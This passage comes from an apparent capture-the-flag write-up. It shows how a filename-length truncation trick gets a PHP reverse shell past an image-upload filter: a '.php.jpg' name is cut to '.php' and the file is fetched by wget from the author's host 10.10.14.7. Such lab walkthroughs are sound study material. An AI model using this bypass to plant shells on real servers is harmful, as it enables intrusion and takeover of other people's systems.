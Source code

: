 Trying to upload `sb.php` using a URL, I get the response:
>Something bad happened:
Bad extension
Specify a URL of an image to upload:

Running through OWASP's Guide to bypass filtered uploads[^2], Didn't really give anything either. So again after some googling, I had the idea that since the upload form is using wget to fetch files. Then maybe supplying a filename longer then linux can handle, maybe we can get it to "cut off" the picture file ending.  
Popping over to UnixStackExchange[^3], we get to know that a linux filename can be 255 characters long. So maybe if I find a filename that is long enough, that might cause an overflow, thus removing all characters over the limit.  

So I tested with a 245 character long filename, and the response was:

```
Upload Succsesful!
Output:
CMD: cd /var/www/html/uploads/0621-2200_805b0c016de450a8; wget 'http://10.10.14.7:3999/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.png'

The name is too long, 245 chars total.
Trying to shorten...
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[..snip..]
```

So now we can see that supplying a 232 character long filename like

```
root@kali:~/Falafel$ python -c "print 'A'*232 + '.php' + '.jpg'"
```

Containing our php code and a 'GIF89' at the beginning, will using the '.jpg' bypass the image filter, but the script will shorted and cut out the last 4 characters, leaving the file names as `'A'*232 + '.php'`.
So taking my `sb.php` reverse shell, and renaming it to the convention

```
CMD: cd /var/www/html/uploads/0621-2211_287036c71d5619df; wget 'http://10.10.14.7:3999/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.jpg'

The name is too long, 240 chars total.
Trying to shorten...
[..snip..]
2018-06-21 22:11:25 (338 MB/s) - 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php' saved [3466/3466]
[..snip..]
```


[^1]: [Magic Hashes](https://www.whitehatsec.com/blog/magic-hashes/)  
[^2]: [OWASP Unrestricted File Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload)  
[^3]: [Unix Stack Excange](https://unix.stackexchange.com/questions/32795/what-is-the-maximum-allowed-filename-and-folder-size-with-ecryptfs)  
[^4]: [Ubuntu Wikipedia](https://wiki.ubuntu.com/Security/Privileges)  
[^5]: [iraw2png.pl](https://www.cnx-software.com/2010/07/18/how-to-do-a-framebuffer-screenshot/)